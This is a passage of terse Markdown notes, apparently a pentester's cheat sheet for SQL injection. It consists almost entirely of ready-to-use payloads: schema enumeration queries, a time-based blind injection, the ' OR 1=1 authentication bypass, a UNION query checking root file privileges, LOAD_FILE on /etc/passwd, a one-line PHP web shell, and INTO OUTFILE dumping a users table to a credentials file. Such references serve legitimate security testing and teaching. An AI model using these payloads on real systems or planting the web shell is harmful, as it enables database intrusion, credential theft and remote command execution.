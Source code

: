 
* `select column_name from information_schema.columns where table_name='users';`
*  `select group_concat(column_name) from information_schema.columns where table_name='users';`
*   `' UNION SELECT SLEEP(5),2 where database() like 'u%';--`
* `' OR 1=1;--`
* May be used another quotes like \```
#### Fuzzing SQLi
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt


#### Privileges

Check for file privileges:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

#### load file

```sql
SELECT LOAD_FILE('/etc/passwd');
```

#### write file
shell
```php
<?php system($_REQUEST[0]); ?>
```

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
secure_file_priv defines scope of of available files, if empty - permits everything

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

hint for working with bin data:
```sql
FROM_BASE64("base64_data")'
```